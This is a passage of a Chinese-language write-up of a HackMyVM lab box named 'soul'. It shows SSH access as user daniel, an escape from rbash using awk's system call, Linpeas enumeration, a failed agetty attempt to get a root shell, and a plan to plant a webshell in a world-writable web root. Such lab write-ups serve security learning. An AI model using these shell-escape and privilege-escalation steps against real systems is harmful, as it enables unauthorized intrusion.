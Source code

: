 成功获取到用户名 `daniel`

ssh上来后发现我们在是一个限制模式的bash `rbash`，在这个模式下我们许多命令都用不了 比如cd命令

```bash
Last login: Thu Nov 26 05:27:42 2020 from 192.168.1.58
daniel@soul:~$ whoami
daniel
daniel@soul:~$ di
-rbash: di: command not found
daniel@soul:~$ id
uid=1000(daniel) gid=1000(daniel) groups=1000(daniel),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
daniel@soul:~$ cd /hotm
-rbash: cd: restricted

```

### 3.2. 绕过rbash
这篇文章里面有很多种[[24-渗透/渗透姿势库/rbash绕过\|rbash绕过]]方式
https://www.freebuf.com/vuls/376922.html
```bash
daniel@soul:~$ awk 'BEGIN {system("/bin/bash")}'
daniel@soul:~$ /
bash: /: Is a directory
```


### 3.3. 提权检测
利用Linpeas进行提权检测
![assets/Pasted image 20241202131134.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241202131134.png)
检测出/usr/sbin/**agetty** 很有可能

但我们这个用户用不了
```bash
daniel@soul:/tmp$ /usr/sbin/agetty -o -p -l /bin/sh -a root tty
bash: /usr/sbin/agetty: Permission denied
```

看来要转移到peter用户才行

## 4. 获取webshell

在用户目录里面没有看到可以利用的东西
可以去网站目录看一下

发现很奇怪的一点，网址目录的权限是777
```bash
drwxrwxrwx 2 root   root     4096 Nov 26  2020 .
drwxr-xr-x 3 root   root     4096 Nov 26  2020 ..
-rwxrwxrwx 1 root   root       24 Nov 26  2020 index.html
-rwxrwxrwx 1 root   root      612 Nov 26  2020 index.nginx-debian.html
-rwxrwxrwx 1 root   root        9 Nov 26  2020 robots.txt
-rwxrwxrwx 1 daniel daniel 190523 Nov 26  2020 saint.jpg
```
应该是希望我们往这里写一个webshell
